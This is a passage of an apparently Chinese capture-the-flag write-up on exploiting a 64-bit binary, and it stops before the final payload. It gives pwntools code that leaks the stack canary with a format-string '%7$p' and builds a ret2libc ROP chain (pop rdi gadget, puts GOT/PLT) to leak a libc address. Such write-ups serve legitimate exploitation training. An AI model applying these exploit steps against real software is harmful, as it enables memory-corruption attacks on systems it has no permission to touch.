 首先输入数据寻找偏移量，可以看到偏移值是6

<img src="https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/202203241700965.png" alt="image-20220324170008891" style="zoom:80%;" />

找一个nop指令，好下断点

<img src="https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/202203260955662.png" alt="image-20220324175904317" style="zoom:80%;" />

gdb调试一下

<img src="https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/202203241800156.png" alt="image-20220324180011091" style="zoom:80%;" />

<img src="https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/202203260955829.png" alt="image-20220324180036092" style="zoom:80%;" />

可以看到canary就是在输入后得一串字符串，故可以这样泄露canary

```python
payload = '%7$p'
io.sendline(payload)
io.recvuntil('0x')
canary = int(io.recv(16),16)
```

接下来就是ret2libc的套路

上一个题目中提到64位传参的时候的寄存器的顺序是 rdi, rsi, rdx, rcx, r8, r9。

read函数存在栈溢出漏洞，需要泄露出上面puts函数的地址

puts函数

```
puts函数的声明：int puts(const char *str)
```

显然，只需要一个参数传参，即rdi，用ROPgadget查找一下`0x0000000000400993`

<img src="https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/202203260955007.png" alt="image-20220324181549713" style="zoom:80%;" />

<img src="https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/202203260955941.png" alt="image-20220324181907850" style="zoom:80%;" />

泄露libc

```python
junk=b'a'*(0x20-8)+p64(canary)
payload=junk+p64(0)				     #覆盖ebp
payload+=p64(pop_rdi)+p64(puts_got)  #参数传入puts地址
payload+=p64(pop_plt)				 #调用puts函数打印出来
payload+=p64(vuln_addr)				 #返回地址为vuln函数，为下次拿到shell做准备

io.recvuntil('story!\n')
io.send(payload)
puts_addr=u64(io.recv(6).ljust(8,b'\x00'))
print(hex(puts_addr))
```

构造payload
